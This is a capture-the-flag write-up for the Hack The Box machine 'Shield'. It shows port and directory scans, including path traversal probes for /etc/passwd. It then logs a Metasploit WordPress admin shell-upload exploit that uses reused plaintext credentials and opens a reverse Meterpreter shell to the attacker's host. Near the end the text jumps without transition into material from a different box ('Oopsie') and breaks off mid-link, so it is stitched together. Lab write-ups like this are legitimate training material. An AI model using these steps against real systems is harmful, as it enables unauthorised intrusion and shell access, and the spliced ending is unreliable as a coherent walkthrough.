 ## --------->> Shield <<----------

// First scanning with nmap

    $ nmap -sV -A -Pn 10.10.10.29 -p-
    Nmap scan report for 10.10.10.29
    Host is up (0.11s latency).
    Not shown: 65533 filtered ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    3306/tcp open  mysql   MySQL (unauthorized)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Nvigating to http://10.10.10.29/ didnt give us much 
// execpt the fact its Windows IIS server(what we already know from nmap)

// lets search some potential directories with feroxbuster

    $ ./feroxbuster -u http://10.10.10.29/ -t 150

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.29/
     🚀  Threads               │ 150
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    301        2l       10w      152c http://10.10.10.29/wordpress
    301        2l       10w      161c http://10.10.10.29/wordpress/wp-admin
    301        2l       10w      163c http://10.10.10.29/wordpress/wp-content
    301        2l       10w      164c http://10.10.10.29/wordpress/wp-includes
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-content/themes
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/plugins
    301        2l       10w      167c http://10.10.10.29/wordpress/wp-includes/js
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/images
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-includes/css
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/uploads
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/blocks
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/upgrade
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-includes/fonts
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-admin/includes
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-admin/images
    301        2l       10w      164c http://10.10.10.29/wordpress/wp-admin/js
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/Images
    301        2l       10w      177c http://10.10.10.29/wordpress/wp-includes/images/media
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-includes/CSS
    301        2l       10w      174c http://10.10.10.29/wordpress/wp-includes/customize
    301        2l       10w      166c http://10.10.10.29/wordpress/wp-admin/user
    301        2l       10w      165c http://10.10.10.29/wordpress/wp-admin/css
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-content/Themes
    301        2l       10w      172c http://10.10.10.29/wordpress/wp-includes/widgets
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-admin/Images
    301        2l       10w      169c http://10.10.10.29/wordpress/wp-includes/text
    301        2l       10w      167c http://10.10.10.29/wordpress/wp-includes/JS
    301        2l       10w      172c http://10.10.10.29/wordpress/wp-includes/js/dist

// i tried another tool (dirsearch) 

    $ python3 dirsearch.py -u http://10.10.10.29/ -t 200

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 200 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.29/_21-07-31_21-35-35.txt

    Error Log: /home/kali/Desktop/Tools/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-07-31_21-35-35.log

    Target: http://10.10.10.29/

    [21:35:36] Starting: 
    [21:35:39] 403 -  312B  - /%2e%2e//google.com
    [21:35:57] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
    [21:35:59] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/
    [21:36:53] 200 -    3KB - /wordpress/wp-login.php
    [21:36:55] 200 -   24KB - /wordpress/

// its seems we have wordpress CMS on the server and login page to Wordpress at http://10.10.10.29/wordpress/wp-login.php
// since we have credentials of admin:P@s5w0rd! from last box(Vaccine) lets try it using MetaSploit

    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password P@s5w0rd!
    password => P@s5w0rd!
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
    username => admin
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 10.10.10.29
    rhosts => 10.10.10.29
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
    targeturi => /wordpress
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.7
    lhost => 10.10.16.7
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lport 1444
    lport => 1444
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

    [*] Started reverse TCP handler on 10.10.16.7:1444 
    [*] Authenticating with WordPress using admin:P@s5w0rd!...
    [+] Authenticated with WordPress
    [*] Preparing payload...
    [*] Uploading payload...
    [*] Executing the payload at /wordpress/wp-content/plugins/URXgzTZVXX/HTaruRzgbG.php...
    [*] Sending stage (39282 bytes) to 10.10.10.29
    [*] Meterpreter session 1 opened (10.10.16.7:1444 -> 10.10.10.29:49688) at 2021-07-31 21:16:41 +0000
    [!] This exploit may require manual cleanup of 'HTaruRzgbG.php' on the target
    [!] This exploit may require manual cleanup of 'URXgzTZVXX.php' on the target
    [!] This exploit may require manual cleanup of '../URXgzTZVXX' on the target

    meterpreter > whoami
    [-] Unknown command: whoami
    meterpreter > getuid
    [-] Error running command getuid: Rex::TimeoutError Operation timed out.
    meterpreter > dir
    [-] Error running command dir: Rex::TimeoutError Operation timed out.
    meterpreter > pwd
    [-] Error running command pwd: Rex::TimeoutError Operation timed out.
    meterpreter > cd C:/Users
    [-] Error running command cd: Rex::TimeoutError Operation timed out.
    meterpreter > exit -y
    [*] Shutting down Meterpreter...

// for some reason metasploit didnt get me a stable shell to work, Navigating to http://10.10.10.29/wordpress/wp-login.php
 we ebale to connect with credentials admin:P@s5w0rd! , after login we will click: >> Appearance >> Theme Editor >> Twenty seventeen (drop down menu)

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shield/1.png)

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shield/2.png)

Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

// When navigating to uploads (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads) we get error due privilleges

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_11_02_
